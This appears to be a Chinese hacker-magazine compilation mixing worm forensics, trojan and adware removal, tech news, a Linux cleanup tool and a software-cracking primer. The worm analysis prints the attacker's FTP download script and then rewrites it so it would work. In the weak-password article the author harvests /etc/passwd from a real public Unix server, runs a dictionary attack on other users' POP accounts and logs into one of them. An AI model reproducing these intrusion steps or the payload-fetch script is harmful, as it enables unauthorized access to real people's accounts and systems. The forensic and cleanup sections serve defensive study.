修改的时候，先将大小为 `E0`（也就是 224 个字节）的 PE 段复制出来，记下末尾地址，然后将这段代码用 00 填充掉，再在上面随便找一个位置，只要 PE 的起始位置不超过 This 这点都可以，将原先的 PE 段粘贴出来。

## 一个馒头引发的蠕虫病毒

蠕虫病毒、DLL 木马、流氓软件，让我们总是怕怕的。小菜 A：“我讨厌死它们了，我的解决方法是 Ghost 还原。”小菜 B：“我的杀毒软件总是自动关闭了，好像是它们在搞鬼。”小菜 C：“硬盘也 format 了，系统也重新安装了，蠕虫还是赶不走啊～”

> 从本文你可以学到：

- 如何利用蠕虫现象分析病毒行为机制
- 如何手动清除一般的蠕虫病毒

### 一、“祸”起馒头

写了一上午的毕业论文，头都大了，一点过了，唉，食堂也只有凉饭凉菜。于是，我做出了一个英明的决定：去买个馒头啃啃吧……可万万没有想到，就在这“买一个馒头”的短短 10 分钟里，互联网也许已经发生了几万次的攻击。

好，我成了被攻击的对象，光荣倒下了。话说我边啃着半个冷馒头，边输入密码准备打开已经处于屏保状态的 Windows XP。提示密码错误，再输，再错，调整大小写，三输，还错。重启后进入桌面，不到一分钟，不祥的事发生了。

### 二、蠕虫分析

天网防火墙弹出了警告，系统自带的 FTP 客户端程序居然自己发出了外连的 TCP 请求，目的 IP 地址是 211.83.126.213，目的端口为 8847。于是立即使用 SmSniffer 抓包分析。


找到高亮显示的连接信息：本地主机 IP 211.83.156.243，对方主机 IP 211.83.126.213，端口 8847。

虽然是本机向对方发起的 FTP 连接，终完成并退出。出于本能的反应，Ctrl+Alt+Del……可是从图 2 嗅探的结果发现，对方成了源，而本机成了目标，可以判断对方的 FTP 服务器应该用了 PASSIVE（被动）连接方式。从数据栏解析的数据得到“220 Reptile welcomes you”（Reptile：爬虫动物，卑鄙的人），建立连接成功。

而继续看下面的几行，如图 3 所示，发现该 FTP 服务器的用户和密码均为 1。


而后面的“230 User logged in”显示登录服务器成功！继续往下，这里可是关键，下面的“RETR winscntrl.exe”，看到开始向对方请求下载名为 winscntrl.exe 的文件了。

“150 Open BINARY mode”用的是二进制下载方式，熟悉 Windows PE 文件格式的同志们从图 4 那个大大的“MZ”头就知道，“鬼子进村了”！

看到高亮显示的正是刚刚 FTP 客户端下载的 winscntrl.exe 可执行程序，心里暗自叫苦。如果这个病毒和当年的 msblast.exe 同样功能的话，那么它应该开始肆虐地外发 SYN 包了。不过我急于结束该病毒进程，我想验证一下我的担心，就在这时，天网防火墙又弹出如图 6 所示的警告。

看来 winscntrl.exe 终于行动了，连接的目标地址是 140.113.216.36，目标端口为 5599，却不是 FTP 最初连接的 211.83.126.213。我以为随机扫描开始了，于是选择“禁止”。过了大约 3-5 秒，天网再次报警，如图 7 所示。

这次显示的目标 IP 为 206.125.140.98，端口仍为 5599，再禁止。又过了 3-5 秒，继续警告，禁了 10 几次之后，发现原来 winscntrl.exe 并不是随机扫描，而是固定在 140.113.216.36 和 206.125.140.98 这两个 IP 之间无序循环地选择，但端口保持 5599 不变。这么看来，目前为止该病毒体并不具有冲击波和振荡波病毒类似的随机扫描漏洞主机的特点。

这两个 IP 到底是什么呢？难道是攻击者的主控客户端？命令行下用 nslookup 看一下先，得到如图 8 所示的结果。


这两个 IP 对应的网址是 Ilsmpn2-ds198.shawneelink.net 和 Hjlee.csie.nctu.edu.tw，难道前面的 211.83.126.213 只是受控的傀儡机而已，这两个地址才是真正的攻击者主控端？

### 三、二度分析

上面的分析是做了防备的（主要是怕破坏系统）。为了继续摸透该病毒，我将 winscntrl.exe 病毒体复制拿到了实验室的另一台 Windows XP 测试机上。在运行该病毒之前，把 RegMon、FileMon、Iris 等工具都准备好，并关闭防火墙。通过 FileMon 发现，运行后观察，winscntrl.exe 将自身复制到 system32 目录下，并删除自身，如图 9 所示。


图 9 winscntrl.exe 的藏身之所

- 1）从任务管理器里结束 winsntrl.exe，没想到没遇到任何阻力；从 system32 里删除该文件，过了一会也没出现该病毒体重生的迹象。看来该病毒只是个纯 EXE 的执行体，并没有利用注入技术或是用其他线程监视该病毒。
- 2）查看注册表，特别是以下几个关键键值：
  - HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run、RunOnce
  - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run、RunOnce、RunOnceEx  
  这里没有任何收获。
- 3）继续跟进，别忘了，病毒本身的自启动还可以通过系统服务呢！

开始杀该病毒。

139 和 445 这几个微软最为脆弱的端口，并且注意下图 12 框起的那一行。192.168.3.244 是测试机在实验室内网的 IP，206.125.140.98 正是图 7 里显示的那个 IP，这两个 IP 之间建立的 TCP 连接正是在 winscntrl.exe 发动 SYN 扫描之前。这样看来，第一次分析是有误的，winscntrl.exe 其实具有冲击波和振荡波病毒类似的随机扫描漏洞主机的特点。不过为什么我第一次分析时，该病毒没有产生随机扫描呢？


图 10 PEiD 结果

开始 / 运行 / services.msc，调出系统服务管理器。对 Windows XP 服务十分熟悉的我，一下子就发现多了一个可疑的 wins 服务，双击打开描述，如图 13 所示。


图 13 wins 服务

首先停掉该服务，把启动类型改为“已禁用”。因为可执行文件 winscntrl.exe 已被删除，重启后这里应该没问题。既然服务里中招了，再次查看注册表 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\wins，将该项和其下所有键值均删除，如图 14 所示。


图 11 netstat -an 结果

| 协议 | 本地地址 | 远程地址 | 状态 |
|---|---|---|---|
| TCP | 192.168.3.244:1236 | 66.162.39.195:80 | ESTABLISHED |
| TCP | 192.168.3.244:1282 | 206.125.140.98:5599 | ESTABLISHED |
| TCP | 192.168.3.244:1707 | 221.237.122.42:445 | SYN_SENT |
| TCP | 192.168.3.244:1708 | 221.237.35.154:135 | SYN_SENT |

图 12 可疑的 TCP 连接


图 14 wins 注册表服务项

### 四、查杀过程

根据以上种种迹象，初步分析的结论是：winscntrl.exe 每次必须先要连接开始分析的那两个 IP 地址的 5599 端口，然后从部署在这两个地址的服务器上获取用以随机扫描的目标网络的 IP 段参数，然后才启动扫描线程。同时 winscntrl.exe 还时刻和服务器保持通信，估计用以随时接受服务器的新任务。

到这，我们还是不能保证 206.125.140.98 和 140.113.216.36 这两个 IP 就是攻击者的主控机，因为这两个地址可能也只是傀儡代理而已。继续追究也不一定有更好的结果，算了，看在还要啃完剩下的半个馒头的份上，我决定停止继续跟踪幕后凶手，开始清理。

### 五、一波未平，一波又起

虽然病毒已经被清除，但心里总觉得怪怪的不放心。果然，如图 1 所示的天网报警再次弹出。这次，我立刻进入系统根目录的 Windows 及 system32 目录下，右键——排列图标——修改时间，仔细查看这两个目录的最后几个文件的时间，发现了下面两个文件：一个名字为 i，另一个是 eraseme_04177.exe，如图 15 所示。从属性里查看这几个文件的创建时间，正好是我买馒头的那个时间段。用 Uedit 打开 i 文件，得到下面的内容。


图 15 i 和 eraseme_04177.exe 文件


```
open 211.83.126.22 11481
user 1 1
get eraseme_04177.exe
quit
```

图 16 文件内容

如图 16 所示。

我晕……还来，这回抓了个现行。这样看来，攻击者利用本机的系统漏洞（本机 RPC、LSA、PNP 等漏洞均未打补丁），再次溢出本机系统，并获得系统权限，进到我的 system32 目录下，创建一名为 i 的文件，然后执行 ftp -s:i。“-s”表示读取 i 文件，并一行一行执行 i 文件中的 FTP 命令。可能由于攻击者的 i 文件命令的失误，导致 eraseme_04177.exe 文件并不能成功下载，只在我的 system32 目录下创建了个空的 eraseme_04177.exe。虽然没有得到 eraseme_04177.exe 文件，可是通过文件名的字面意思可以判断，eraseme_04177.exe 的作用估计和 winscntrl.exe 一样：执行后删除自身并拷贝自己到系统目录且改名字为 winscntrl.exe。

```
正确的写法应该是：

open 211.83.126.22 11481
1
1
get eraseme.exe
quit
```

至于 211.83.126.22 这个 IP，应该和第一次的 211.83.126.213 一样，都是攻击者的肉鸡而已，真正的幕后主使应该是 IP 为 206.125.140.98 和 140.113.216.36 的机器。

### 后记

把补丁全部补齐后，在 Google 上搜了一下，对该蠕虫病毒的描述居然还不到 10 条。只有“如痴苦咖啡”的博客上看到如下描述：该病毒应该是 Backdoor/AimBot 蠕虫的最新变种，它利用多种 Windows 系统漏洞传播，病毒运行后将自身删除并复制到 %windir%\system32 里，并创建下面服务，达到随系统启动的目的：

- 服务名：wins
- 描述：Winsock network detection layer
- 服务程序：%windir%\system32\wins_cntrl.exe

该病毒会连接 IRC 服务器（从上面的分析看来，目前该 IRC 服务器地址 IP 是 206.125.140.98 和 140.113.216.36，也不排除被代理的可能），接收攻击者发出的命令，被感染计算机可以被黑客完全控制，而成为“僵尸电脑”。

忽然发现肚子咕噜直叫，唉，拿起刚才吃了一半的馒头狠狠地啃了两口！想起最近打得火热的一个馒头引发的血案，我只有苦笑：馒头啊馒头~

【文中所涉及到的 SmSniffer，已经收录在光盘中】

> 【编辑点评】作者用嗅探程序和防火墙来分析病毒的行为，并且还找到了“绝密机”，只是作者没有继续深入下去。利用工具分析蠕虫病毒的行为和特点是多么简单方便，相信大家已经学会了对蠕虫病毒的分析以及查杀了吧！希望下一个投稿的就是你哦。

## DLL 木马，看你往哪里藏

- 从本文中你可以学到：
  - 通过哪些方向快速地查找到可疑 DLL 木马。
- 通过 DLL 文件和可疑服务进行鉴定。

最近很倒霉，经常获得最佳“木马”奖。但在一次查杀木马的过程中，我发现一个方法可以方便地查找 DLL 木马。

下面我用一个实例来说明。有查杀木马经验者通常在寻找 DLL 木马时，都会先检查 iexplore.exe 和 explorer.exe 这两个文件。

从图 1 中我们可以清楚地发现一个名为 SECLOGON.DLL 的文件没有发行者、描述以及版本的相关信息。我们从这一点就可以怀疑它是一个 DLL 木马了。


一般配置木马的参数时，都会提示你是选择 iexplore.exe 还是 explorer.exe 来进行注入。选择 iexplore.exe 进行注入可以有效穿透防火墙，这是因为大多数防火墙不会阻止 IE 浏览器访问网络。即使提示是否允许 IE 访问网络，大多数用户还是会选择允许的。

有没有办法快速查找可疑的服务来加快查找木马呢？答案是有。通常来说木马建立的服务应该属于非系统服务，这里我们用卡卡的日志扫描功能来迅速查找可疑的非系统服务。


从图 2 中我们可以发现在服务项目中有 4 个非系统服务，其中的 `023 - Service: Image Service(SECLOGON) - C:\WINNT\system32\secl0g0n.exe` 我觉得很可疑，因为当一些文件名称用数字 1 和 0 替换字母 l 和 o 时，99% 可以肯定是木马或病毒了。看看该服务是否运行了，如果运行了就先停止该服务再删除该服务，这里我用在 Nohack 论坛中找到的一款查看服务的程序。

【文中所涉及到的 ViewService、进程管理和日志扫描器，已经收录在光盘中】

【编辑点评】我想纠正一下作者文章中的一个缺点，通过 DLL 文件相关信息来查找木马确实可以，但不是绝对的。通过日志扫描器来查找非系统服务确实是个好的想法，但也不是绝对的。有些木马能 HOOK 系统的相关函数，这样日志扫描器就找不到这类型的木马了，如黑客之门和黑客守卫者。所以不能死读书和尽信书，还得不断学习加强自身的综合知识水平。

## 打“流氓”就这么简单

天使小忧

- 反流氓大体分三步走：
  - 升级软件到最新
  - 运行软件查找流氓
  - 选择软件清理方案，IceSword 配合应用

流氓软件相信大家都怕了吧？当你遇到流氓如何面对呢？如果你是像我这样的菜鸟，那么只有重新安装操作系统了（呵呵，我以前经常这样做）。今天一个朋友向我推荐了一款软件，觉得对像我这样的菜鸟十分有帮助，不敢独享，所以拿出来分享一下，望高手不要见笑。

反流氓工具：  
恶意软件清理助手 & IceSword

我简单看了看“恶意软件清理助手”，发现其操作十分简单，而且是免费升级的。首先来升级看看，选择“在线升级”，再点击“立即升级”按钮，就会出现升级信息了，如图 1 所示。


图 1 软件升级成功

升级成功后就可以找到更多的流氓软件了。好了，我们继续吧！

### 一、查找和清除已知流氓软件

选择“系统清理”项，再选择“恶意软件清理”，最后点击“开始检测”按钮，就能自动查找系统中存在的恶意软件。如图 2 所示，可以发现我的系统里面有许多流氓软件。


图 2 发现流氓软件


图 3 清理流氓软件

### 二、彻底清除流氓软件

虽然软件提示流氓软件清理成功，但我们看详细的结果却提示有些文件和注册表项目无法清除，图 3 就显示 Yahoo 助手的相关文件清除失败。

```
删除文件：(prg)Yahoo!\Assistant\
删除文件：(win)Downloaded Program Files\cns*.*
删除注册表项：HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Enum\Root\LEGACY_CNSMINKP
删除注册表项：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Enum\Root\LEGACY_CNSMINKP
```

图 4 删除注册表相关键值；图 5 删除的是 Yahoo!\Assistant；图 6 删除的是 Downloaded Program Files\cns*.*。

> cns*.* 代表所有以 cns 开头的文件及后缀名称为任意名称。


图 4 删除注册表相关键值


图 5 删除 Yahoo!\Assistant


图 6 删除 Downloaded Program Files\cns*.*

### 三、判断未知进程

当你系统中的程序越来越多，就会出现许多自己不了解的进程，这时判断其中的木马之类程序就麻烦了，但我们可以通过下面的方法来辅助判断。

首先选择“系统清理”——“系统进程清理”，再选择你不了解的进程，这里选择“Ylive.exe”，选择“进程详细信息”，如图 7 所示。这时就会打开一个网页，该网页显示的是刚才选择的进程 Ylive.exe 的相关信息，如图 8 所示。


图 7 查看指定进程详细信息


图 8 Ylive.exe 进程相关信息

通过图 8 我们可以知道其进程是属于 Yahoo 的，会使用网络并且后台进行工作。这些信息大大方便了我们判断。

到这里文章也结束了，我很菜，文章也菜，感谢小编 GG 对我的帮助，如果有什么问题大家可以去 www.nohack.cn/bbs 和我交流。

【文中涉及到的恶意软件清理助手、IceSword，已经收录在光盘中】

> 编辑点评：作者选择 IceSword 的理由是不会受系统的限制，且不显示具有隐藏特性的文件及注册表项。还有，作者在删除注册表项目的时候忘记删除 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Enum\Root\LEGACY_CNSMINKP。我好奇地发现还有一个辅助清理工具（DosTools.exe），见图 9。用 Tab 键可以进行选项的切换，Alt+F 可以调出菜单。


图 9 DOS 下的清理工具

## 打“流氓”就这么简单

## 菜鸟 lala 说

五月似乎总让你想到五一劳动节……我们来说点别的吧。五月一日，大家还记得九五年的时候开始在这一天实行双休日的吗？除了知道是劳动节，还有人知道这是示威游行日和 1894 年小日本对华开战吗？除了放假，其实还可以想到很多……

本期《窗外》跟大家分享一些应用小技巧。另外，本期小编通过作者文章无意中发现了学习 UNIX 的一个快速、安全的好办法：无须安装，无须“头痛”，即可快速在 UNIX 系统里遨游。到底是什么虚拟系统呢，赶紧来看看“便捷学习 *NIX 虚拟服务器以及破解弱口令”吧。


大家常说病毒与 Linux 无关，而今又有人来提醒大家安全意识不可淡漠！红帽发布了 FC5 之后却作出了让人意想不到的决定，不知是可喜还是可悲。不过一贯闭塞的苹果如今却明朗了不少，不但 Mac OS 能在其他机器上跑，就连 Windows 都能在苹果机上跑了。谁叫如今软件是越来越难赚钱了呢？“出卖”的苹果也放下了它的尊贵架子。

红帽公司目前已经解散了 Fedora 基金会。它原本打算将这个基金会建成为开源领域提供知识产权保护的实体组织，但是最终发现这一目标实在是大得有些不切实际了。

> Stevens 说：“我们相信我们以前所设想的东西实际上没什么意义。在基金会成立之后，我们开始与 Open Invention Network 公司合作，我们在这方面下了很大的投入。”

失去了 Fedora 之后的 Red Hat，该用什么来填补这个伟大的计划呢？而新的开源系统会不会重复 Fedora 的旧路呢？拭目以待吧。不过，纵观历史，很多理想主义计划终归抵不过大众商业化市场的强势。

## 全球首个 Win/Linux 跨平台病毒现身

俄罗斯反病毒软件卡巴斯基透露，他们获得一种新病毒标本，能够同时感染 Windows 以及 Linux 操作系统。这种新病毒命名为 Bi.a，采用低级计算机语言 assembler 编写，目前仅能够感染当前目录下的文件。不过，其感染文件范围将包含 Linux 以及 Windows 系统下的不同格式：ELF 以及 PE。虽然目前 Bi.a 本身并不危险，但是其背后潜力惊人的跨平台病毒领域将在未来迅速崛起，成为安全关注的焦点。

跨平台病毒，有创意。不知道它的编程思想和算法是什么样的，希望有机会能看到。

## 苹果官方 Boot 软件亦支持 Vista 和 Linux

苹果公司本周三发布的 Boot Camp 软件，官方称它可以让微软的 Windows XP 操作系统运行在基于 Intel 处理器的 Mac 计算机上。虽然这让当初靠破解 Mac 机器的玩家少了一些乐趣，可是除了 Windows XP 以外的其它系统在该软件发布时也未被提起，它是否也支持安装其它操作系统呢？

据 Techreport 网站报道，另外一位玩家则尝试了 Ubuntu Linux 5.10，而且他成功了。

越来越多的商家尝到了闭塞的苦果，而 Open 之后的各个厂商必然会给我们带来更多的惊喜。就像 KDE 和 GNOME 的合作，是否会统一开源桌面呢？

## Apache 基金会主席称商业软件十年内全免费

Apache 软件基金会主席克瑞格·斯蒂恩在 EclipseCon 2006 大会上表示，传统的软件销售商业模式将成为历史，开源软件已成为越来越多用户的选择。

斯蒂恩表示，软件已经渐演化成为生活中的一种日用品；通过各种渠道可免费获得，比如免费软件 OpenOffice 将会取代微软的 Office 套件。他表示：“随着开源软件数量和质量的不断升级，必将占领更多市场，商业软件套件将无利可图。”

> 斯蒂恩说：“不远的将来，所有的软件都会是免费的；你根本不必要掏钱购买软件，不过要为软件的维护和支持付费。”

他预言称，在 5 到 10 年内，我们使用的绝大多数软件都将免费提供。产品捆绑软件的现象将一去不复返。最终，自由软件将在功能上超过商业软件，开放源社区的开发都将越来越多。

这个观点并不新鲜，现在很多公司就是靠后续服务来获取商业的更大利润。这个提法和电讯公司免费赠送手机的概念比较类似，收取后续服务费和话费。仔细想想，克瑞格·斯蒂恩这个理论应该源自多年前一些广告公司提出的通过服务创造价值的理念。自由软件在功能上能不能超过商业软件，或许没有可比性，世界的发展从来都是多条主线同时进行且合理并存着。事物是动态发展的，商业软件开发商也会根据市场需要调整他们的定位和方向。

## 摊子支了难收拾？红帽宣布解散 Fedora 基金会

Fedora Core 是红帽公司推出的自由业余爱好者版本的 Linux，采用了红帽公司企业 Linux 产品中的成熟技术，并新增了许多其他的功能。

当红帽公司在 2005 年 6 月宣布成立这个基金会的时候，它曾经说过它打算将 Fedora 项目的开发工作和其他开发人员所贡献的代码版权转移到该基金会。红帽公司仍将继续提供资金和工程技术方面的支持，但是这项计划涉及的与 Fedora 项目相关的开发社区覆盖面实在是太宽了。

## 玩转 KDE 桌面环境下的垃圾文件的清理

梁振江

### 一、什么是 KleanSweep

无论是 Windows 还是 Linux 操作系统，在长时间使用后，难免会产生许多冗余文件，清理这些冗余的垃圾文件对提高我们的系统运行效率有着很重要的作用。本文将介绍一款开放源码系统清理工具 KleanSweep。KleanSweep 是在 KDE 桌面环境下清理 Linux 系统冗余文件的利器，它可以安全、彻底、方便地帮你扫除一切残留在 Linux 中的垃圾文件，保持硬盘和系统的清洁。KleanSweep 能清理的 Linux 冗余文件有很多，如：

- 空白文件、目录
- 备份文件
- 失效的符号链接
- 受损的可执行文件
- 无用的菜单文件
- 重名文件
- 孤立的文件（RPM 包中缺失的文件）

KleanSweep 支持多种 Linux 发行版本，适用范围很广。在 Linux 中安装和使用都非常简单，一般的 Linux 发行版本中都可以选择安装 KDE 桌面和 PERL 环境，并能十分顺利地使用 KleanSweep。

### 二、安装以及使用

KleanSweep 的编译安装过程：  
KleanSweep 源代码压缩包可以到以下链接下载：http://Linux.bydg.org/~yogin/kleansweep-0.2.7.tar.bz2。

我们以 Fedora 3 操作系统为例。在解压缩后，我们可以在解压目录 /kleansweep-0.2.7/admin 中找到一个安装工具 Scons，首先我们要安装 Scons，使用如下命令即可完成安装过程。

```bash
tar xjvf admin/scons-mini.tar.bz2
./scons
./scons install
scons -c install
kleansweep
```

成功运行 KleanSweep 后会显示 KleanSweep 的一些主要信息和注意事项，例如我们使用 root 权限运行 KleanSweep 时，可能由于权限过大误删除重要文件，如图 1 所示。KleanSweep 使用的是交互式的友好图形用户界面，用户可以根据实际需要选择要清理的冗余文件类型和文件目录等，然后根据提示一步步操作即可完成系统文件的清理任务，如图 2 所示。KleanSweep 在按照用户要求搜索和分析完指定目录后，会给用户一份详细的清单，让用户再次确定所需要清理掉的文件，避免把正常的文件给清除掉，如图 3 所示。


在正式删除选择的冗余文件之前，KleanSweep 还会再次要求用户确认，如图 4 所示。

为被删除的冗余文件创建备份文档，这个步骤很重要，以便日后恢复误删除的文件。当然，如果我们对所选择的冗余文件有信心，可以省略这一步，如图 5 所示。

最后，KleanSweep 完成用户所指定删除任务，并在完成任务前给用户一个详细的任务清单，以便用户复查，如图 6 所示。

> 【文中所涉及的工具已经包含在光盘中。工具如下：kleansweep-0.2.7.tar.bz2】


眷恋 Win 环境的人可能会记得“Windows 优化大师”等优化软件，方便有效。其实 Linux 本身的诸多设置就是非常优化的，所以自然不需要太多的优化软件。但细细搜索，还是有许多小玩意儿会让我们眼前一亮，常用 Google 能让大家有许多新的发现。

## 便捷学习 *NIX 虚拟服务器之大破解弱口令

钱海东

### 一、前言

最近，由于对 Unix 突然有了莫名的兴趣，就想实际感受一下 Unix 系统，但我又不想在自己的电脑上安装 Unix 系统（其实主要原因还是对 Unix 的安装不太熟悉）。所以我就在 www.google.com 开始了我的搜索旅程，希望能找到一个提供免费账号的 Unix 系统，能提供给我一个试用 Unix 系统的机会。经过大约一分钟，找到了一个提供免费 Unix 账号的站点 www.arbornet.org。（图 1）

点击页面上的“Login Now!”，可以转到下面的页面。（图 2）

- telnet
- ssh
- web-based ssh java client
- web-based bbs access

这 4 种方式中 telnet 方式比较简单、直观，所以我们直接选择 telnet 方式。点击“this link”，出现 DOS 界面。（图 3）系统提示新用户……

```text
Welcome to the Once and Future M-Net
FreeBSD 4.6 (<m-net.arbornet.org>) (ttyp0)

Enter newuser at the login prompt to create a new account
Enter upgrade at the login prompt to find out about increased access

login:
```

```text
Welcome to M-Net, America's First Public-Access UNIX System
...（新用户引导说明与介绍文本）...
Press any key to Continue_
```

用户在登录系统时，必须创建一个新的账号。好，按照系统提示，首先输入 newuser，然后按提示创建账号。服务器会显示许多的帮助信息。（图 4）

```text
In an M-NET system, if you really want to use something else, you'll have to learn to hang it later.
Press ? at any prompt for help.
(Please press your backspace key)
```

接着，会要求你按两次空格来确认你的键盘发出的信号，对方可以正确识别。（图 5）

```text
Enter your login name:
```

输入你的登录账号。（图 6）

```text
Enter your full name:
```

输入全名。（图 7）

```text
Enter your password: ******
Enter your password again: ******
```

输入且重复输入密码。（图 8）（图 9）

接着系统会询问你习惯使用的 shell。在 Linux 中有许多 shell，不同的 shell 功能和操作上会有所区别（图 10）。我习惯用 bash。

```text
Enter the shell you want (? for a list) [menu]:
...
csh / tcsh / ksh / sh / bash / zsh
...
Please enter menu, bash, csh, tcsh, ksh, sh, zsh, or ?
Enter the shell you want (? for a list) [menu]:
```

```text
Enter the editor you want (? for a list) [pico]:
...
pico / vi / emacs / ed / ex
...
Enter the editor you want (? for a list) [pico]:
```

询问使用什么文本编辑器，我选择 vi。（图 11）  
输入邮箱地址。（图 12）  
输入居住地区。（图 13）  
输入性别。（图 14）  
全部输入完毕，系统会确认信息正确与否（注：图 15 是编辑为了让读者理解文章意图，特意补抓的，图中注册名和作者最终注册的名字 sadboy 并不一致，仅作为举例之用）。  
登录系统，输入密码。（图 16）  
可以使用虚拟 UNIX 了。（图 17）  
我创建的账号是：sadboy。进去了。（图 18）（图 19）  
下面使用几个命令来玩一下（图 20）：

```text
Enter your email address:
Enter your occupation: china
Enter your gender: m
```

- pwd——这是显示目前所在目录的指令。
- id——它能列出账号的权限。

```text
Verify Information
(L)ogin    : latteye
(F)ull Name: latteye
(P)assword : [NOT SHOWN]

(S)hell    : /bin/bash
(E)ditor   : /usr/bin/vi
(T)erminal : ansi

(B)ackspace: ''
(I)nterrupt: CONTROL-C (^C)
(K)ill Key : CONTROL-U (^U)

(M)ail     : latteye@gmail.com
Birth(D)ate: 850612
(G)ender   : m
(O)ccupation: china

Enter letter of the field to change, or just press ENTER if done:
```

```text
Your new M-Net account has been created! You will now be asked for your password.

Password:
```

```text
... never ask you for your password ...
... SMTP / mail package 说明 ...

You can disable tcsh's terminal beep if you 'set nobeep'.
stty: option requires an argument -- erase
usage: stty [-a|-e|-g] [-f file] [options]
bash-2.05a$ _
```

```text
Welcome to the Once and Future M-Net
FreeBSD 4.6 ...
login: sadboy
Password:
...
>> Welcome to M-Net, the First Public Access Unix System <<
...
```

```text
Telnet: *nix shortcuts (terminal screenshot)

text
Visit the Arbornet website at
http://www.arbornet.org/

M-net will be discontinuing outgoing email support on November 1, 2005...

Forget what directory you are in? Type "pwd".
bash-2.05a$
```

```text
Telnet: *nix shortcuts (terminal screenshot)

text
bash-2.05a$ pwd
/home/guest/sadboy
bash-2.05a$ id
uid=41249(sadboy) gid=10(guest) groups=10(guest)
...
USER  TTY  FROM  LOGIN@  IDLE  WHAT
```

- W——这是用来观察目前在系统上使用者的指令，它能列出使用者名称、登录时间，以及使用者的终端地址（IP）……

命令就介绍这几个，其它的大家自己去玩吧！

### 二、任务启动

通过使用 W 命令，得知该系统上有很多用户。于是，我就想可能有其他用户使用了弱口令，那么不是能用他们的账号进去看看吗？……

```text
Windows 命令行截图（ping m-net.arbornet.org）

text
C:\Documents and Settings\Admin>ping m-net.arbornet.org
Pinging m-net.arbornet.org [64.9.205.95] with 32 bytes of data:
Reply from 64.9.205.95 ...
```

故意说说而已！想到就要做到，开工！首先，来 ping 一下 m-net.arbornet.org。（图 21）有了 IP 地址，就该扫描一下系统，看看系统都打开了什么端口……


哇！开放的端口好多！21、23、53、79、80、110 这些经典的端口都开了。下面就是获得账号了……

- 可以直接在系统中用 `cat /etc/passwd`，得到系统中的所有账号。
- 可以用扫描器扫描 21、110 端口，也可以得到账号，但一般扫描器使用自带的用户表，用户数量有限。
- 通过端口 79，使用 finger 命令去检索账号，不过太麻烦了。

这里我选择方法 1。回到系统中，用 `cat /etc/passwd` 命令查看 passwd。（图 23）

```text
终端截图（`cat /etc/passwd` 输出）
```

| 用户名列表示例 |
|---|
| u1377 |
| askhat |
| leon0ck |
| minas3 |
| ... |

| 弱口令字典示例 |
|---|
| %username% |
| %username%12 |
| %username%123 |
| 0/null% |
| 111 |
| 123 |
| password |
| root |
| ... |


账号实在太多了，将账号提取出来保存为一个文件 pop_user.dic。（图24）现在又到了用扫描器的时间了，hscan 是一款经典的扫描器，它的界面非常友好。用先前的 pop_user.dic 替换掉 hscan 中 conf 文件夹下的 pop_user.dic 文件，pop 口令文件就用软件自带的 pop_pass.dic 字典。（图25）然后启动软件，在 Menu 菜单下配置好设置。（图26）（图27）配置好后，点击 Menu 中的 Start 选项，即可开始扫描 pop 弱口令了。（图28）得到 4 个 pop 口令，good！现在，就拿刚才得到的口令用 telnet 的方式进入系统，我拿 hackerx 做测试，可能有好东西在里面哦。（图29）

有点意思，玩玩吧！好了，测试到此为止。其他几个账号我就不玩了。

## 编辅点评：

其实就编辑初衷而言，本文猜解部分并无多大实际意义，只是工具部分的使用可以让感兴趣的读者熟悉不同工具的综合应用。但是在编辑过程中，小编却发现文章开始的 UNIX 虚拟服务器是一个亮点，因为对于大多数初学者而言，*NIX 类系统的安装以及安装风险就是比较头痛的事，这也成为了学习 *NIX 系统的一个拦路虎。所以小编特意扩充了本文 UNIX 的注册使用部分，让读者对于这个 UNIX 虚拟服务器能够轻松入门。国内的上海雪鸟公司也提供了类似的学习环境，而且提示都是中文的哦！大家可以去 http://snowbird-linux.com 看看。使用方法类似本文中提到的国外网站，而且不需要创建用户，直接可以用默认用户登录。对 UNIX 既爱又怕的朋友，赶快去试试吧。

最后，小编还是要提醒大家，在计算机系统中，我们应该避免使用弱口令。另外，对于 Unix 系统，管理员应该对用户的权限进行限制，不要让用户获取访问 /etc/passwd 的权限。

【文中涉及软件已经收录在光盘中。软件如下：BluesPortScan.zip】

## CRACK 技术水平评估

这里引用下国内 CRACKING 界的元老人 JOJO 以前总结的 Crack 技术的五个阶段，分别如下：

- 1. 第一个阶段应该算是爆破的阶段（暂不考虑加壳因素）。绝大多数软件都可以通过修改得以破解，它需要我们大致了解程序加密的过程并准确地找到其跳转判断点。由于一些现成的工具和经验，使我们找这些近乎成为做机械运动（尤其是在 WINDOWS 下的软件），所以爆破一个软件变得相对容易很多，但不是说就一定是容易的。
- 2. 如果有一天你不是一上来就拿着斧头砍来砍去，而是从内存里嗅出了一串几组注册码的话，那就恭喜你进阶了，这就是第二阶段。
- 3. 第三个阶段应该是退出非明码比较的注册码了，它们通常多为多条件和计算型形式。这时候你要拿出笔和纸来，在搞清楚部分算法的同时，找到合适的断点让软件的自动计算和你的手动计算结合起来，算出注册码。
- 4. 第四个阶段就是做出通用的注册机。这需要你完全搞明白注册算法和加密原理。通常这个过程是非常痛苦的。如果你对自己充满信心，想体会一下的话，那最好的选择就是 AJJ 的 CRACKME2——一层层破防了。通常，到这个时候，你就可以算是一名高手了。
- 5. 第五个阶段就是学习掌握一定的密码学知识，并了解常见的公共加密算法，做出利用成熟加密算法或密码学原理加密软件的注册机或提出解决之方法。如果你能达到这个境界，那么恭喜你已经成为一名职业选手了，你将和世界最知名的 CRACKER 平起平坐。

> 玩 Crack 的朋友可以对照着看看自己现在是哪个水平以自勉。记得 jojo 在《看雪论坛精华3》的前言上就曾经说过：“让我们搞清楚作为一名 CRACKER 最需要具备的基本条件，其实那并不是扎实的汇编功底和编程基础，你完全可以不懂这些；CRACKING 的秘诀就是勤奋 + 执着！记住并能做到这两点，你一样可以变得优秀。”

## 刀光剑影，再造战场

Lizaib [E.S.T]

## 引言

在网吧玩黑，小菜们一定有 N 多不爽吧！为什么？网吧有 N 多限制嘛，以下由我大菜鸟带领各位小菜们杀入网吧，解开那惨无人道的限制。（小菜们：别废话了，开始吧！）

## 一、重剑出鞘 突破下载

有的高手动不动就入侵网吧服务器，这太打击我们小菜了，我们连工具都没有呢！以下是大菜鸟潜入到非安全总部窃来的破解秘技，各位小菜们加紧学会哦。

